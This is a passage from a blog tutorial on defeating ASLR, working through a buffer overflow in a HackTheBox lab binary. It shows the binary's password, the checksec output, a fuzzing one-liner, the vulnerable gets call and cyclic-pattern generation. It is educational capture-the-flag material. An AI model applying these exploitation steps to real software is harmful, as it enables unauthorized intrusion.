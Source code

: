 ```yaml
---
layout: post
title: "Defeating ASLR Part II"
date: 2020-05-02 04:04:00 +0300
categories: hack binary-exploitation
---
```

[First part](/hack/binary-exploitation/2020/05/02/defeating-aslr-part-1.html) of this series contains the necessary information.
<br>
I am using [gef](https://github.com/hugsy/gef) plugin for gdb and pwntools python module

# Defeating ASLR via Address Leakage

We're going to use the binary from the hackthebox machine Ellingson here for demonstration purposes. I do not provide the binary.
<br>
We're gonna use two different ways to exploit the binary. First we're gonna get the addresses manually and type them in, second we're gonna let pwntools do everything.

## Fuzzing

When you run the binary it asks for a password which you can easily get by running *strings* on the binary: N3veRF3@r1iSh3r3! The program then shows a menu with multiple options that don't do much. Let's check the enabled protections first.
<br>
```terminal
gef➤  checksec 
[+] checksec for '/root/Tuts/blogposts/smashbin/aslr_leak/garbage'
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
```
<br>
We have no execute bit (NX) enabled. This means we can't execute code from the stack so we're going to use return-oriented-programming (ROP). Running a basic fuzz command to check if the password input is vulnerable to buffer overflow results in a segmentation fault. 
<br>
```terminal
python -c "print 'A' * 200" | ./garbage
```
<br>
Indeed we can see the vulnerable gets call in the auth function. I should also note that the program first checks the userid and will exit if userid is not either one of 0, 1000, or 1002.
<br>
```nasm
x0040155c      mov rdi, rax       ; char *s
x0040155f      mov eax, 0
x00401564      call sym.imp.gets  ; char *gets(char *s)
```
<br>
Now that we have confirmed the overflow. Let's create a cyclic de Bruijn pattern and figure out at which byte the overflow occurs.
<br>
```terminal
gef➤  pattern create 200                                                                                                                                  
[+] Generating a pattern of 200 bytes                                                                                                                     
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaata
```